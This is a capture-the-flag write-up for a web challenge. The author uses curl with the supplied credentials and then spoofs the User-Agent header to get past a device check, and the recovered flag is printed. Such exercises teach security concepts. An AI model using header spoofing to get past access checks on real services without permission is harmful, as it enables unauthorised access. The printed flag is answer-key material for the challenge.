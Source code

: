 # Aliens make me wanna Curl

## Description
```
We are expecting communications from an artificial intelligence device called MU-TH-UR 6000, referred to as mother by the crew. We disabled the login page and implemented a different method of authentication. The username is mother and the password is ovomorph. To ensure security, only mothers specific browser is allowed.
```

## Writeup

Ok so we instantly know that we need to make a curl request to the machine. <br/>
This should probably happen with the credentials we received so username being `mother` and password being `ovomorph`. <br/>
The are multiple options how to do this but the basic auth looks like this: <br/>
```sh
kali@kali curl -v -u mother:ovomorph https://spooky-aliens-make-me-wanna-curl-web.chals.io/flag 

------------------------------------------
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 17
< ETag: W/"11-+xBlBidHR/JNuLDy8WeziVrfMPQ"
< Date: Sat, 28 Oct 2023 04:49:33 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5

Incorrect Device!  
```

It seems like this worked because actually doing it different results in this: <br/>
```sh
kali@kali curl -v  https://spooky-aliens-make-me-wanna-curl-web.chals.io/flag -H "username: mother" -H "password: ovonorph"

------------------------------------------
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 8
< ETag: W/"8-E3bLbI8EFr5TTzdttLsMCiSJtFI"
< Date: Sat, 28 Oct 2023 04:46:13 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5

No auth!     
```

Now we need to bypass the error `Incorrect Device`. <br/>
Looking at the description again we see that they are talking about `MU-TH-UR 6000`. <br/>
Maybe using this one as a `User-Agent` will get us access. <br/>
```sh
kali@kali curl -u mother:ovomorph -H "User-Agent: MU-TH-UR 6000" https://spooky-aliens-make-me-wanna-curl-web.chals.io/flag 

NICC{dOnt_d3pEnD_On_h3AdeRs_4_s3eCu1ty} 
```

Seems like we got the flag. 
